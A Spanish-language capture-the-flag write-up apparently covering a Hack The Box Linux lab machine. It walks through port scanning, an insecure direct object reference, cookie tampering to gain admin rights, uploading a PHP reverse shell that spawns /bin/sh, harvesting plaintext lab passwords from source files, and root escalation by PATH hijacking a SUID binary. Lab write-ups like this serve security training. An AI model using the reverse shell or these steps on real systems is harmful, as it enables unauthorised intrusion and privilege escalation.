 ```yaml
---
title: Archetype HTB
date: 2023-02-05
author: naibu3
---
```


#linux

## Fase de reconocimiento

Tras comprobar si la máquina está activa con ping, en base al ttl, podemos sospechar que se trata de una máquina **linux**. Lanzamos [[nmap]]:

```shell
nmap -p- --open -sS -min-rate 5000 -n -Pn <ip>
```

Obtenemos:

```shell
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Podemos sospechar que se trata de una aplicación web, por lo que buscamos en el navegador, mientras tratamos de buscar las versiones y lanzamos scripts de enumeración:

```shell
sudo nmap -p22,80 -sCV <ip>
```

Y obtenemos:

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


### Reconocimiento con burpsuite

Burpsuite puede hacer de *web crawler*, o araña y analizar el esquema de un sitio web. Para ello primero debemos configurar firefox para que mande la información por medio de un proxy. 

#### Configurando firefox

Vamos a preferencias, buscamos proxy en la barra de búsqueda y seleccionamos *"preferences..."*. A continuación seleccionamos *"configuración manual"* y ponemos la ip `127.0.0.1` y el puerto `8080`. También es recomendable activar la opción *"Also use this proxy for FTP and HTTPS"* para asegurar que todo el trádico vaya a través del proxy.

#### Utilizando burpsuite

Antes de empezar, también debemos desabilitar la itercepción en burpsuite (que viene activa por defecto). Para ello, en la pestaña de *Proxy* y aseguramos de desabilitar el campo `Ìntercept is on`.

Ahora, ya podemos volver a la página y refrescarla con la pestaña *Target* abierta. En el árbol que se crea a la izquierda, podemos ver un directorio `/cdn-cgi/login`.


### Accediendo a la web

Al ver dicha ruta, e intentar varios usuarios y contraseñas, accedemos como invitado.
Y al investigar la pestaña *Account* vemos que hay un parámetro `id` que se pasa por url:

```python
http://10.129.156.147/cdn-cgi/login/admin.php?content=accounts&id=2
```

Si ponemos `id=1`, accederemos como el usuario administrador, viendo la siguiente información:

| Access ID | Name | Email |
|-----------|--------|-------|
| 34322 | admin | admin@megacorp.com |

Vemos también una pestaña para subir archivos, sin embargo necesitamos privilegios. En este punto, podríamos tratar de comprobar si podemos manipular alguna cookie.


## Manipulando cookies

Podemos ver y manipular cookies en Mozilla Firefox mediante el uso de las herramientas de desarrollador. Para ello vamos a la pestaña de la subida de archivos y hacemos click derecho e *"inspeccionar"*. En la sección *"storage"* (*"almacenamiento"*), vemos que tenemos una cookie `role=guest` y `user=2233`. Intentamos cambiarlo a `role=admin` y `user=34322` (credenciales que obtuvimos en el punto anterior).

Tras recargar la página, tenemos acceso a la página para subir archivos.

## Subiendo una reverse shell

Utilizaremos una reverse shell en php. Yo utilizaré la siguiente:

```php
<?php  
<SNIP>  
set_time_limit (0);  
$VERSION = "1.0";  
$ip = '127.0.0.1'; // CHANGE THIS WITH YOUR IP  
$port = 1234; // CHANGE THIS WITH YOUR LISTENING PORT  
$chunk_size = 1400;  
$write_a = null;  
$error_a = null;  
$shell = 'uname -a; w; id; /bin/sh -i';  
$daemon = 0;  
$debug = 0;  
<SNIP>  
?>
```

La subimos y probamos que se encuentre en la pestaña *"Uploads"* (`/uploads/reverse.php`). Y en efecto, existe el directorio aunque no tengamos acceso. Nos ponemos en escucha y recargamos.

Deberíamos tener abierta una shell.


## Cambiando de usuario

Antes de nada, para obtener una terminal con todos los comandos, podemos ejecutar:

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Sabemos de la existencia de un directorio `/var/www/html/cdn-cgi/login`, en el cuál, mediante la siguiente línea podemos buscar posibles contraseñas en texto plano:

```shell
cat * | grep -i passw*
```

Obteniendo:

```javascript
if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
<input type="password" name="password" placeholder="Password" />
```

Así que ya tenemos la contraseña `MEGACORP_4dm1n!!`. Ahora podemos buscar en el `/etc/passwd` algún usuario que le pueda corresponder. Encontramos:

```
root:x:0:0:root:/root:/bin/bash
robert:x:1000:1000:robert:/home/robert:/bin/bash
```

Así que probamos:

```shell
su robert
```

Sin embargo no funciona para ninguno de los dos. Sin embargo, si investigamos los archivos:

```shell
cat db.php
```

```php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

Obteniendo la contraseña `M3g4C0rpUs3r!`, que sí nos permite iniciar sesión. La falg del usuario está en `/home/robert`


## Escalada de privilegios

Podemos tratar de utilizar `sudo -l`, pero vemos que robert no pertenece al grupo *sudoers*. Con `id`, podemos ver que pertenecemos al grupo *bugtracker*:

```shell
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

Con la siguiente línea podemos buscar algún binario que pertenezca a dicho grupo:

```shell
find / -group bugtracker 2>/dev/null
```

Encontrando el fichero `/usr/bin/bugtracker`. Del que tratamos de listar su información y privilegios:

```shell
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
```

```shell
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
```

Del que vemos que tiene un privilegio `suid`, que podría ser una ruta de explotación.

### Abusando de los privilegios suid

Si ejecutamos el archivo veremos que lista otro archivo utilizando `cat`, por lo que en `/tmp` creamos un fichero que también se llame `cat`, y que contenga:

```
/bin/sh
```

Y le otorgamos privilegios de ejecución:

```shell
chmod +x cat
```

Ahora añadiremos `/tmp` al `PATH`:

```shell
export PATH=/tmp:$PATH
```

Finalmente ejecutamos el `bugtracker`, como ahora `/tmp` está antes en el `PATH`, nuestro `cat`, *malicioso* se ejecutará en lugar del original, otorgándonos una terminal como administrador.
La flag está en `/root`.

